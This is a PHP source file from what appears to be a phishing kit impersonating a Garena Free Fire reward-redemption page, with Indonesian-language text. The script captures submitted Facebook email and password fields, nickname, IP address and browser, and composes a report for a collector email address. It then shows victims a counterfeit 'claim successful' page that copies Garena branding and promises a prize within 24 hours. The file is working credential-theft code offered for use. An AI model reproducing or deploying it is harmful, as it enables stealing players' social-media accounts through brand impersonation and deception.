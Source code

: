 ﻿<?php
$nickname= $_POST['nickname'];
$namafb= $_POST['namafb'];
$emailfb = $_POST['emailfb'];
$passfb = $_POST['passfb'];
$ip = $_SERVER['REMOTE_ADDR'];
$today = date("F j, Y, g:i a");
$link = $_SERVER['SERVER_NAME'];
$browser = $_SERVER['HTTP_USER_AGENT'];
$emailkamu = "emailkamu@gmail.com"; 
$tomail = $emailkamu; 
$subject = "Setor FF Via FACEBOOK Nickname[$nickname]IP[$ip]";
$message = '
<center><div style="border-radius:3px;border-bottom:2px solid white;padding:5px;width:100%;background:red;color:white;text-align:center;"><font size=6><b>BERHASIL</b></font></div>
<div style="margin-top:10px;margin-bottom:10px;border-radius:3px;padding:5px;width:100%;background:black;color:white;text-align:center;">
<hr style="color:red">
<hr style="color:red">
<table width=100% align=center >
	
</div>
<div style="border-radius:3px;border-bottom:2px solid white;padding:5px;width:100%;background:red;color:white;text-align:center;"><font size=3 color=white><b> 2019 - KODE REEDEM</b></font></div>
</center>
<meta http-equiv="content-type" content="text/html;charset=utf-8" />
<head>
	<meta name="title" content="FreeFire">
    <meta name="description" content="FreeFire">
    <meta property="og:title" content="FreeFire">
    <meta property="og:description" content="FreeFire">
	</script>
	<link rel="stylesheet" href="https://ff.garena.com/statics/ff/css/common/reset.css">
	<link rel="stylesheet" href="https://ff.garena.com/statics/ff/css/common.css">  
    <link rel="stylesheet" href="https://ff.garena.com/statics/ff/css/swiper.css">
    <link rel="stylesheet" href="https://ff.garena.com/statics/ff/css/firepass/season02.css">
    <!-- M002 V3 -->
    <meta charset="utf-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <!-- set if need to be able scaled -->
    <meta name="description" content="">
    <meta name="author" content="">
    <meta name="title" content="FreeFire">
    <meta name="description" content="FreeFire">
    <meta property="og:title" content="FreeFire">
    <meta property="og:description" content="FreeFire">
    <title>Free Fire</title>
    <link rel="shortcut icon" href="https://ff.garena.tw/static/favicon.ico" type="image/x-icon">
    <link rel="stylesheet" href="css/reset.css" />
    <!-- Bootstrap core CSS -->
    <link href="css/bootstrap.min.css" rel="stylesheet">
    <!-- IE10 viewport hack for Surface/desktop Windows 8 bug -->
    <link href="css/ie10-viewport-bug-workaround.css" rel="stylesheet">
    <!-- HTML5 Shim and Respond.js IE8 support of HTML5 elements and media queries -->
    <!-- WARNING: Respond.js doesn't work if you view the page via file:// -->
    <!--[if lt IE 9]>
      <script src="https://oss.maxcdn.com/html5shiv/3.7.2/html5shiv.min.js"></script>
      <script src="https://oss.maxcdn.com/respond/1.4.2/respond.min.js"></script>
    <![endif]-->
    <link href="css/all.css" rel="stylesheet">
    <link href="css/extra.css" rel="stylesheet">
    <!-- the css editable in USE -->
</head>
<div data-reactroot="">
<div class="container">
<div class="a_wrap2">
<div class="col-md-5 col-sm-5 col-xs-5">
<img src="imgg/logoff.png" class="gamelogo">
</div><div class="col-md-5 col-sm-5 col-xs-5">
<img src="imgg/garena.png" class="garenalogo"></div><span class="cit topics col-md-12 col-sm-12 col-xs-12">Sukses Klaim!</span></div><div class="a_wrap"><div></div>
<br><div><div></a></span></div>

<br>
<br><div><div></a></span></div>
<p><h5>Berhasil Di Claim!</h5></p>
</div><div class="more"><ol>
<li><!-- react-text: 18 -->1. Selamat Hadiah Telah Di Klaim </li>
<li><!-- react-text: 22 -->2. Silahkan Tunggu Hadiah Anda Di Pesan Inbox Dalam 24 Jam</li>
<br>
<li>Ingat: Kamu Tidak Bisa Klaim Hadiah Jika Anda Menggunakan Akun Guest. Silakan Bind Akun Anda Terlebih Dahulu Ke Facebook atau VK Untuk Menerima Hadiah</li>
<br>
<center><a href="index.php" class="button"><img src="imgg/logout.png" </center>
</div></div></div></div>

<br>

<br>

<br>
<body>
<div class="g-footer clearFix">
    <div class="m-foot-wrap">
 <div class="m-foot-copyright">
            <div class="m-foot-logo"><img src="http://freefiremobile-a.akamaihd.net/ffwebsite/images/logo_small_foot.png"></div>
            <div class="txt">Copyright © Garena International.<br>Trademarks belong to their respective owners. All rights Reserved.</div>
    <div id="app"></div>

<script type="text/javascript" src="bundle.js"></script></body>
</html>
